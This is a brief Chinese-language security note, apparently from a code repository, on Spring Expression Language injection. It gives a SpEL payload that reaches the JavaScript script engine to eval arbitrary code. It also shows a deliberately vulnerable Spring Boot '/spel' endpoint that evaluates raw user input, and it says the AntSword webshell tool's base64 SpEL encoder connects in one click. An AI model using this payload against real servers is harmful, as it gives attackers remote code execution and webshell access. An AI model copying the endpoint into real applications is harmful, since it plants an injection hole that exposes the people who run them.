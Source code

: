 ![image-20230802163548579](./assets/image-20230802163548579.png)

### Spel

```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval(code)}
```

springboot设置一个测试环境，以spel为例

```
@RequestMapping("/spel")
public String eval(String spel){
    SpelExpressionParser parser = new SpelExpressionParser();
    Expression expression = parser.parseExpression(spel);
    return expression.getValue().toString();
}
```

蚁剑选择spelbase64编码器可一键连接
